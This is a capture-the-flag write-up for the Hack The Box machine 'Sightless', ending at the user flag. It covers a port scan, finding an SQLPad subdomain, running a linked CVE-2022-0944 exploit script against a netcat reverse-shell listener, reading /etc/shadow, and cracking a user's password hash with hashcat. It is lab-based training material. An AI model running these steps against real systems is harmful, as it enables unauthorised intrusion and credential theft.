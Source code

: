 # A guide for the HTB CTF challenge "Sightless"

### My target IP: 10.10.11.32  (your target IP might vary), using Kali Linux

#### Hunt for the user flag.txt

First we being with a typical nmap scan to see what is going on.  I will use rustscan for the initial scan.  If you do not have rustscan the follow command will install it:
```
wget https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
sudo dpkg -i rustscan_2.0.1_amd64.deb
```
You can then verify the installation by using:
```rustscan --version``` to confirm installation.

Once rustscan is ready to go we being with command ```rustscan -a 10.10.11.32 -- -sC -sV```

The result of the scan can be seen below:

![Initial Scan](./images/Sightless%20-%20initial%20scan.png)

The take away from the scan is that ports 21, 22, and 80 are open.  It is unlikely we will have any luck directly attacking ports 21 and 22, so lets being our exploration at port 80.  Within the port 80 result we can see that the scan has recorded a redirect from our target, ```http-title: Did not follow redirect to http://sightless.htb/``` we will need to accomidate this within our host file.  If we go directly to the target ip via a web browser we hit a dead end.  So lets fix this by using the following:
```nano /etc/hosts```
within the file end the target ip & name of site (sightless.htb) ```10.10.11.32  sightless.htb```  save file and we're ready.

One we reach sightless.htb we can take a quick look and notice there isn't much to see.  No login fields, no file submission opportunities.  But within the minimalist home page we can see that one link stands out, shown below

![sqllink](./images/sqllink.png)

Clicking here makes an attempt to take us to http://sqlpad.sightless.htb  We have found a new subdomain!  This will require we update the /etc/hosts file agian, just as before we create a line with the target IP and now sqlpad.sightless.htb and we're ready to go.

Once reaching sqlpad.sightless.htb we find there really isn't much here.  We're not going to be finding any credentials within this GUI, its empty.  But we can attack the sqlpad service.  We can discover the version by selecting the dots in the top right corner, shown here:

![sqlversion](./images/sql_version.png)

Okay, well we now know the version is 6.10.0.  A quick search on google and there is some potential here for an exploit.  I tried several exploits online but only had luck with one of them.  The exploit hosted here: [https://sploitus.com/exploit?id=71EF4FD3-E934-5708-8650-46510BE372AC](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944)

The exploit is pretty easy to use.  From the above link download the "exploit.py" file.  Open up a listen on your machine to catch the response we are about to elicit, this can be done with ```nc -lvnp 4444```

With oru listener running we then execute our newly downloaded exploit as follows: ```python exploit.py (target url) (your ip) (port you selected, probably 4444)``` which will look like this:

![exploit](./images/exploit.png)

Success!  When we go check our listener will now see an established an ssh connection with the target.  

After poking around for a while I could not come up with much.  I had hoped to find somethign related to sqlpad, maybe a database with credentials, but I did not find anything.  But when we head over and look at the encrypted user crednetial on the account we find one line of interest.  Within the /etc/shadow file exists the line:

```michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::```

So we know there is a user michael, but currently the password is unknown to us.  But we can figure it out.  Lets take the hash value portion of the above line and put it into a text file.

```echo '$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/' > hash.txt```

That will create our file containting the hashed password.  Now we can utalize hashcat to see what we can find.

```hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt```  

SUCCESS!  We have found the password - "insaneclownposse"  So lets see if we can now SSH into the target IP...

![userflag](./images/userflag.png)

Half way done, maybe.









